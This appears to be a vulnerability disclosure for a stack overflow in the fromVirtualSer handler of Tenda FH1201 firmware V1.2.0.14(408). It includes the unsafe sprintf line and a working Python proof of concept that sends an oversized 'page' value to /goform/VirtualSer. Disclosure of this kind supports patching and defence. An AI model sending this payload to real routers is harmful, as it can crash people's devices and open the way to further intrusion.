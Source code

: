 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromVirtualSer` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v5, "nat_virtualser.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v5` array, thus triggering this security vulnerability.

![image-20240731140216299](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140216299.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)